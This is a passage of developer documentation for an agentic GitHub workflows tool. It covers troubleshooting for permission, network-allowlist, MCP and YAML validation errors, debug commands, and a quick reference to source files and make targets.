    command: "npx @my/server"  # For stdio-based MCP
    # OR
    container: "ghcr.io/my-org/server:latest"  # For containerized MCP
```

#### Permission Validation Errors

**Error:** Write permissions in strict mode
```
✗ strict mode: write permission 'contents: write' is not allowed for security reasons
```

**Resolution:**
```yaml
# Use safe outputs instead
permissions:
  contents: read

safe-outputs:
  create-issue:
    title: "Result"
    body: "Workflow completed"
```

#### Network/Firewall Errors

**Error:** Wildcard network access
```
✗ strict mode: wildcard '*' is not allowed in network.allowed domains
```

**Resolution:**
```yaml
network:
  allowed:
    - "api.github.com"
    - "registry.npmjs.org"
    # Or use ecosystem identifiers
    - "python"  # Allows PyPI
    - "node"    # Allows npm
```

#### YAML Version Issues

**Error:** YAML 1.1 keyword parsing
```
✗ unexpected value for 'on' field: true (boolean)
```

**Resolution:**
```yaml
# Quote the 'on' keyword
"on":
  issues:
    types: [opened]
```

**Other YAML 1.1 keywords to quote:**
- `yes`, `no` (parsed as booleans)
- `on`, `off` (parsed as booleans)
- Numbers starting with 0 (parsed as octal)

### Debug Workflow Validation

```bash
# Enable validation debug logs
DEBUG=*validation* gh aw compile workflow.md

# Enable MCP debug logs
DEBUG=*mcp* gh aw compile workflow.md

# Enable firewall/network logs
DEBUG=*firewall* gh aw compile workflow.md
```

### Analyzing Validation Failures

**Steps:**
1. Identify the validation function from debug logs
2. Check the error message for pattern: `[what's wrong]. [what's expected]. [example]`
3. Locate the validation code in appropriate file
4. Create minimal reproduction case
5. Fix and verify

**Validation Files:**
- MCP configuration → `pkg/workflow/mcp_config_validation.go`
- Strict mode → `pkg/workflow/strict_mode_validation.go`
- Permissions → `pkg/workflow/permissions_validator.go`
- Network → `pkg/workflow/firewall_validation.go`
- General → `pkg/workflow/validation.go`

### Performance Issues

**Check token consumption:**
```bash
# View daily token report
gh aw run .github/workflows/daily-copilot-token-report.md
```

**Optimize workflows:**
- Add `max-turns` for Claude/Custom engines
- Set reasonable `timeout-minutes`
- Add output size limits in prompts
- Use progressive disclosure for verbose content
- Add early termination conditions

---

## Quick Reference

### File Naming Conventions

| Pattern | Usage | Example |
|---------|-------|---------|
| `create_*.go` | GitHub entity creation | `create_issue.go` |
| `*_engine.go` | AI engine implementation | `copilot_engine.go` |
| `*_validation.go` | Domain-specific validation | `strict_mode_validation.go` |
| `*_test.go` | Unit tests | `create_issue_test.go` |
| `*_integration_test.go` | Integration tests | `mcp_integration_test.go` |
| `*_fuzz_test.go` | Fuzz tests | `expression_parser_fuzz_test.go` |

### Command Reference

```bash
# Development
make test-unit               # Fast unit tests (~25s)
make test                   # Full test suite (~30s)
make test-security          # Security regression tests
make bench                  # Performance benchmarks
make lint                   # Linting with quality checks
make agent-finish           # Complete validation

# Debugging
DEBUG=* gh aw compile workflow.md
DEBUG=workflow:* gh aw compile workflow.md
DEBUG=*validation* gh aw compile workflow.md

# Building
make build                  # Build binary
make install               # Install to $GOPATH/bin
```

### Key Files Reference

| File | Purpose |
|------|---------|
| `pkg/workflow/compiler.go` | Main compilation logic |
| `pkg/workflow/validation.go` | Cross-cutting validation |
| `pkg/workflow/safe_outputs.go` | Safe outputs system |
| `pkg/parser/frontmatter.go` | Frontmatter parsing |
| `pkg/console/console.go` | Terminal output formatting |
| `pkg/styles/theme.go` | Adaptive color themes |
| `pkg/logger/logger.go` | Debug logging system |

---

## Additional Resources

### Related Documentation

- **[Safe Outputs Specification](../scratchpad/safe-outputs-specification.md)** - Formal specification for safe outputs
- **[GitHub Actions Security Best Practices](../scratchpad/github-actions-security-best-practices.md)** - Security guidelines
- **[Validation Architecture](../scratchpad/validation-architecture.md)** - Validation system overview
- **[Testing Guidelines](../scratchpad/testing.md)** - Complete testing guide
- **[Error Recovery Patterns](../scratchpad/error-recovery-patterns.md)** - Error handling guide
- **[Code Organization](../scratchpad/code-organization.md)** - File organization patterns
- **[Go Type Patterns](../scratchpad/go-type-patterns.md)** - Type system best practices
- **[Workflow Refactoring](../scratchpad/workflow-refactoring-patterns.md)** - Modularization patterns
- **[Token Budget Guidelines](../scratchpad/token-budget-guidelines.md)** - Performance optimization
- **[String Processing](../scratchpad/string-sanitization-normalization.md)** - String handling patterns
- **[Styles Guide](../scratchpad/styles-guide.md)** - Visual styling guide

### External References

- [Go Documentation](https://go.dev/doc/)
- [testify Library](https://github.com/stretchr/testify)
- [lipgloss Library](https://github.com/charmbracelet/lipgloss)
- [GitHub Actions Documentation](https://docs.github.com/actions)
- [JSON Schema](https://json-schema.org/)

---

**Maintained by**: GitHub Next Team
**Last Review**: 2026-02-06
**Next Review**: 2026-03-06
